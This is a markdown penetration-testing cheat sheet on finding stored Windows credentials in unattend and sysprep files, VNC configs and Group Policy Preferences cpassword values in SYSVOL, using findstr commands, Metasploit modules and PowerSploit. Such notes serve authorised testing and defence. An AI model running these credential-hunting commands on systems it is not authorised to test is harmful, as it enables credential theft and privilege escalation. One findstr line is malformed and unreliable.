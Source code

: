 ### Stored Credentials

```
C:\unattend.xml
C:\sysprep.inf
C:\sysprep\sysprep.xml
```

```
dir c:\*vnc.ini /s /b /c
dir c:\*ultravnc.ini /s /b /c
dir c:\ /s /b /c | findstr /si *vnc.ini
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
```

#### Unattended Installations

- `post/windows/gather/enum_unattend`
- Look for `UserAccounts` tag of `Unattend.xml`, `sysprep.xml` and `sysprep.inf` across the system, including:
```
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
```
- Microsoft appends "Password" to all passwords within Unattend files before encoding them.

#### Group Policy Preferences (GPP)
- Introduced from Windows Server 2008
  - https://support.microsoft.com/en-us/help/2962486/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevati
- `GPP` allows for configuration of Domain-attached machines via `group policy`.
  - Map drives (Drives.xml)
  - Create Local Users
  - Data Sources (DataSources.xml)
  - Printer configuration (Printers.xml)
  - Create/Update Services (Services.xml)
  - Scheduled Tasks (ScheduledTasks.xml)
  - Change local Administrator passwords
- GPPs are stored in the `SYSVOL` share, which is world-readable to authenticated users.
  - `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`
  - `findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml`
- Domain machines periodically reach out and authenticate to the Domain Controller utilizing the Domain credentials of the `logged-in user` and pull down policies.
- Group Policies for account management are stored on the Domain Controller in `Groups.xml` files buried in the `SYSVOL` folder (`\\Domain\SYSVOL\<DOMAIN>\Policies`)
- `cpassword` is used to set passwords for the Local Administrator account.
- Password is AES-256 encrypted using a published key: [https://msdn.microsoft.com/en-us/library/Cc422924.aspx](https://msdn.microsoft.com/en-us/library/Cc422924.aspx)
- Metasploit: `post/windows/gather/credentials/gpp`
- PowerSploit: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
  - Get-CachedGPPPassword //For locally stored GP Files
  - Get-GPPPassword //For GP Files stored in the DC
- `Get-DecryptedPassword` to decrypt the AES encryption
- http://www.sec-1.com/blog/wp-content/uploads/2015/05/gp3finder_v4.0.zip
